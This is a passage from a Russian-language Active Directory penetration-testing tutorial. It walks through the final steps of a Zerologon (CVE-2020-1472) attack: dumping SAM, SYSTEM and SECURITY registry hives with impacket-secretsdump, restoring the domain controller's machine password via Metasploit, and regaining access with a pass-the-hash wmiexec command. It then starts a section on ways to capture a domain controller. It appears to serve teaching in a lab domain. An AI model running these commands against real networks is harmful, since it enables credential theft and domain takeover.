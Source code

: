 > C:\> lget security.save

И удалим их:

> C:\> del /f system.save security.save sam.save

14. Локально проанализируем эти файлы с помощью impacket-secretsdump:

> $ impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL

15. Теперь, когда мы получили старый пароль машинного аккаунта из секретов LSA, мы можем вновь запустить эксплойт из
    msf, но уже в режиме восстановления пароля:

> $ msfconsole

> msf6> use auxiliary/admin/dcerpc/cve_2020_1472_zerologon

> msf6> set RHOSTS 192.168.0.17

> msf6> set NBNAME DC1

16. Опции при этом останутся прежними, кроме двух новых: ACTION – выбора действия и PASSWORD – значения пароля машинного
    аккаунта в HEX:

> msf6> set ACTION RESTORE

> msf6> set PASSWORD <$MACHINE.ACC hex password>

17. Восстановим пароль:

> msf6> run

18. Убедимся, что доступ сохранился:

> $ impacket-wmiexec -hashes <hash> 'sandbox.local/administrator@192.168.0.117'

### Общие принципы

В общих случаях захватить контроллер домена возможно 3 различными подходами:

- Эксплуатация уязвимости в контроллере домена
- Кража учетных данных, токенов и сессий привилегированных УЗ
- Эксплуатация миссконфигураций сервисов в AD, предоставляющих доступ от имени привилегированных учетных записей

### Захват контроллера домена

У любопытного слушателя могут появиться вопросы:

- Какое поведение можно назвать захватом контроллера домена?
- Почему важно захватить контроллер домена?


В общем случае, назвать захватом домена можно получение уровня доступа управления контроллером домена из под учетной
записи, которая имеет соответствующие права.

По умолчанию наивысшие права в домене имеет учетная запись из группы Enterprise Admins.
